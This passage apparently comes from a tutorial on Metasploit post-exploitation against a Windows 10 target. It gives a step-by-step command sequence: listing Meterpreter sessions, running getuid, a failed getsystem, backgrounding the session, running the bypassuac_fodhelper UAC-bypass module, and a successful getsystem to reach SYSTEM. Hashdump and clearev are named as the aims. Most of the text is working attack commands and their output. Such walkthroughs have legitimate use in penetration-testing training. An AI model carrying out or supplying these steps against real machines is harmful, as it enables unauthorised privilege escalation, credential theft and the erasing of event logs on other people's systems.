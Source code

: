 `sessions` or `sessions -i` in order to list the current opened sessions. To open any session, select the ID by issuing the command:

`sessions <ID>` _(Replace `<ID>` with the ID number of the active session that you want to interact with)_


Open the current Meterpreter session and type:

`getuid`

The above command will get you the ID of the current user your under in the target Windows machine. Basically determines your current level of access.

```
meterpreter > getuid
Server username: DESKTOP-IDQ2IC4\guest  
```

Observe from the above result that you're currently running under normal (low-level) user privileges, therefore, performing actions such as hashdump or clearev won't be possible unless you escalate your privileges.

Let's try to escalate our privileges by issuing a `getsystem` command:


`getsystem -t 1`

```
meterpreter > getsystem -t 1
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
```

As you can see from the above result, the windows system UAC is blocking you from gaining unrestricted access to it. In order to bypass the UAC security setting, we'll push the current meterpreter session to the background in order to start another exploit, by issuing the following command:

`background`


We'll use the bypassuac_fodhelper exploit module which targets a vulnerability in the Fodhelper.exe binary. The following command will help us bypass the windows user account control settings and elevate our privileges:

`use exploit/windows/local/bypassuac_fodhelper`


Type `sessions` to see the ID of the previous meterpreter session and set it to the current exploit:

`set SESSION <ID>`


Type `run` to run the exploit.


>At this point, the BypassUAC exploit has bypassed the UAC setting on the Windows 10 machine and opened a new session. Now let's try to escalate our privileges again:

`getsystem -t 1`

```
meterpreter > getsystem -t 1

...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```
